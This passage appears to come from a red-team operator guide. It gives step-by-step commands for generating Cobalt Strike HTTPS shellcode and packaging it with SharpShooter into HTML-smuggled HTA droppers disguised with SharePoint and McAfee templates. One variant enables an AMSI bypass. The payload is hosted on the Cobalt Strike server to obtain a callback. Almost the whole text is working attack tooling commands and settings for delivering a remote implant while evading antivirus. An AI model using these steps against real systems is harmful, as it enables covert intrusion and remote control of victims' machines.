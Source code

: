 * Name Payload `06-https.cs`
* Edit 06-https.cs and remove everything before the first hex value (ie: "0xfc") and after the last hex value (ie: "0x94")
* Keep generating and testing the HTA until it works and you get a callback with the following command:

  ```bash
  cd /tools/SharpShooter; python SharpShooter.py --dotnetver 2 --delivery web --payload hta --shellcode --scfile ~/Working/Payloads/06-https.cs --smuggle --template sharepoint --web https://<URL>/06-https-sharp.payload --output 06-https-sharp
  ```
  1. When generating the payload you have to use the URL/Domain and not IP address
  2. Host the 06-https-sharp.payload file on the Cobalt Strike server
* If you get an error related to jsmin setup a python virtual environment and then install the requirements and try the command again.

  ```bash
  virtualenv -p python2.7 venv
  source venv/bin/activate
  cd /tools/SharpShooter
  pip install -r requirements.txt
  ```
  * When you’re finished with the virtual environment enter the command **deactivate**

### **__07-https-sharp-amsi.html__**

* Attacks
* Packages
* Windows Executable (S)

| Field | Option |
|----|----|
| Listener | HTTPS |
| Output | RAW |
| 64 Bit | Unchecked |

* Name Payload `07-https-sharp-amsi.bin`
* Run the following:

  ```bash
  cd /tools/SharpShooter; python SharpShooter.py --stageless --dotnetver 4 --payload hta --output 07-https-sharp-amsi --rawscfile /path/to/07-https-sharp-amsi.bin --smuggle --template mcafee --amsi amsienable
  ```
* If you get an error related to jsmin setup a python virtual environment and then install the requirements and try the command again.

  ```bash
  virtualenv -p python2.7 venv
  source venv/bin/activate
  cd /tools/SharpShooter
  pip install -r requirements.txt
  ```
  * When you’re finished with the virtual environment enter the command **deactivate**
